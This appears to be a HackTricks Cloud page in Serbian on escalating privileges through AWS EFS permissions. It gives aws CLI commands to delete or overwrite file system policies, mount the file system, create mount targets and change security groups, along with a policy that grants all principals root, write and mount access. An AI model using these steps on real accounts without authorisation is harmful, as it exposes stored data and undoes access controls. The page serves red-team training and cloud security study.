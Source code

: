 # AWS - EFS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

Više **informacija o EFS** u:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Zapamtite da da biste montirali EFS, morate biti u podmreži gde je EFS izložen i imati pristup njemu (grupe bezbednosti). Ako se to dešava, po defaultu, uvek ćete moći da ga montirate, međutim, ako je zaštićen IAM politikama, potrebno je da imate dodatne dozvole pomenute ovde da biste mu pristupili.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Sa bilo kojom od tih dozvola, napadač može **promeniti politiku datotečnog sistema** da **omogući pristup** ili jednostavno **izbrisati** tako da se **default pristup** dodeli.

Da biste izbrisali politiku:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Da biste to promenili:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Sa ovom dozvolom, napadač će moći da **montira EFS**. Ako dozvola za pisanje nije data podrazumevano svima koji mogu da montiraju EFS, imaće samo **pristup za čitanje**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Dodatne dozvole `elasticfilesystem:ClientRootAccess` i `elasticfilesystem:ClientWrite` mogu se koristiti za **pisanje** unutar datotečnog sistema nakon što je montiran i za **pristup** tom datotečnom sistemu **kao root**.

**Potencijalni uticaj:** Indirektna privesc lociranjem osetljivih informacija u datotečnom sistemu.

### `elasticfilesystem:CreateMountTarget`

Ako je napadač unutar **podmreže** gde **nema montiranog cilja** EFS-a. On bi mogao jednostavno **da kreira jedan u svojoj podmreži** sa ovom privilegijom:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potencijalni uticaj:** Indirektno privesc pronalaženjem osetljivih informacija u fajl sistemu.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

U scenariju gde napadač otkrije da EFS ima mount target u njegovoj podmreži, ali **nema sigurnosne grupe koja dozvoljava saobraćaj**, mogao bi jednostavno **promeniti to modifikovanjem odabranih sigurnosnih grupa**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potencijalni uticaj:** Indirektno privesc pronalaženjem osetljivih informacija u fajl sistemu.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
